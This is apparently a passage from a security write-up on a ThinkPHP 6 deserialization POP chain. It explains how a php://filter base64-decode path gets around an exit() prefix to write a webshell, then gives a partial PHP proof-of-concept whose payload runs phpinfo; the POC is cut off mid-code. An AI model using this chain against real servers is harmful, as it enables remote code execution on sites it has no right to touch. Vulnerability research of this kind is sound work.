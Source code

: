 <img src="./images/tp6-pop-2-10.png" alt="">

> Mainly look at how the two parameters `$filename` and `$data` are assigned. First, follow up on the `$filename` parameter, its value comes from the `getCacheKey()` method. Follow up on this method and find that the `$filename` parameter is controllable: `$name` is the file name from `$this->key`, `$this->options['hash_type']` is also controllable. The final file name is hashed, so the final file name is controllable. `$this->options['path']` is constructed using `php filter` `php://filter/write=convert.base64-decode/resource=think/public/`
> Next, let's take a look at the `$data` parameter. The previous analysis is known to be from `$this->serialize`. Exit() exists here, which is used to combine the file name construction in the previous step to use `php://filter` to bypass death exit(). [Reference article](https://www.leavesongs.com/PENETRATION/php-filter-magic.html): Assuming the incoming `$expire=1`, then the valid characters that can be decoded in the previous part of the written webshell after splicing are: `php//00000000000001exit` has 21. To meet the rule that base64 decodes the rule that 4 characters are 1 group, add 3 characters in front of it for the escape. The impact of base64 decoding

#### POC
```php
<?php

namespace League\Flysystem\Cached\Storage {
    abstract class AbstractCache {
        protected $autosave = false;
        protected $complete = "uuuPD9waHAgcGhwaW5mbygpOw==";
    }
}

namespace think\filesystem {
    use League\Flysystem\Cached\Storage\AbstractCache;
    class CacheStore extends AbstractCache {
        protected $key = "1";
        protected $store;
        public function __construct
($store="") {
            $this->store = $store;
        }
    }
}

namespace think\cache {
    abstract class Driver {
```